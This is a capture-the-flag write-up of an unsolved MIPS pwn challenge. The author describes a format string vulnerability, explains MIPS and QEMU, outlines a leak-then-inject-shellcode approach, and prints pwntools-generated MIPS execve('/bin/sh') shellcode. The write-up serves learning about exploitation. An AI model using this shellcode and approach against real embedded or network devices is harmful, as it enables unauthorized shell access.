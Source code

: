 **Binary Blast**

**Description**
nc 0.cloud.chals.io 12490

Ready for a blast from the past? Navigate the MIPS landscape and watch out for those sneaky format strings. Beware of fake flags—only the real one will do!

Author: LMS

**Writeup**
I did not end up solving this challenge due to lack of experience with pwn challenges. However, I did learn quite a bit from this challenge, especially about MIPS and QEMU. 

First things first, the challenge mentions two key terms that are crucial to this challenge: `format strings` and `MIPS`. The challenge provides a MIPS binary (`chall`) running on a remote server (with the `qemu-mips` binary). 

*MIPS*: MIPS (Microprocessor without Interlocked Pipeline Stages) is a RISC (Reduced Instruction Set Computing) architecture widely used in embedded systems and network devices. MIPS processors execute a streamlined set of instructions, which allows for efficient pipelining and performance. 

*QEMU*: QEMU (Quick Emulator) is a free and open-source emulator that can perform hardware virtualization. It is often used to emulate different CPU architectures, including MIPS.

Upon some research I found this repository with a MIPS exploit involving shellcode injection: https://github.com/w0lfzhang/mips_exploit/tree/master
I read through the PDFs, but I was unable to employ the proof of concept to this challenge.

After research and decompiling the `chall` binary, I believe that the exploit involves leaking memory using the format string vulnerability, injecting shellcode, and executing it to get the shell.

The format string vulnerability in this challenge was not conventional. Usually, the binary has outputs for the injected format strings. However, there was no output in our case. Had I had more experience with pwn, I would have spotted how to work around this hurdle.

Generating the shellcode can be done through the use of `shellcraft` from `pwntools`. I believe `shellcraft.mips.linux.sh()` should be sufficient for spawning a `/bin/bash` shell for this challenge.
Here is what the `shellcraft` shellcode looks like in assembly:
```assembly
    /* execve(path='//bin/sh', argv=['sh'], envp={}) */
    /* push b'//bin/sh\x00' */
    li $t1, 0x69622f2f
    sw $t1, -12($sp)
    li $t1, 0x68732f6e
    sw $t1, -8($sp)
    sw $zero, -4($sp)
    addiu $sp, $sp, -12
    add $a0, $sp, $0 /* mov $a0, $sp */
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00\x00' */
    ori $t1, $zero, 26739
    sw $t1, -4($sp)
    addiu $sp, $sp, -4
    slti $a1, $zero, 0xFFFF /* $a1 = 0 */
    sw $a1, -4($sp)
    addi $sp, $sp, -4 /* null terminate */
    li $t9, ~4
    not $a1, $t9
    add $a1, $sp, $a1
    sw $a1, -4($sp)
    addi $sp, $sp, -4 /* 'sh\x00' */
    add $a1, $sp, $0 /* mov $a1, $sp */
    /* push argument array [] */
    /* push b'\x00' */
    sw $zero, -4($sp)
    addiu $sp, $sp, -4
    slti $a2, $zero, 0xFFFF /* $a2 = 0 */
    sw $a2, -4($sp)
    addi $sp, $sp, -4 /* null terminate */
    add $a2, $sp, $0 /* mov $a2, $sp */
    /* setregs noop */
    /* call execve() */
    ori $v0, $zero, SYS_execve
    syscall 0x40404
```
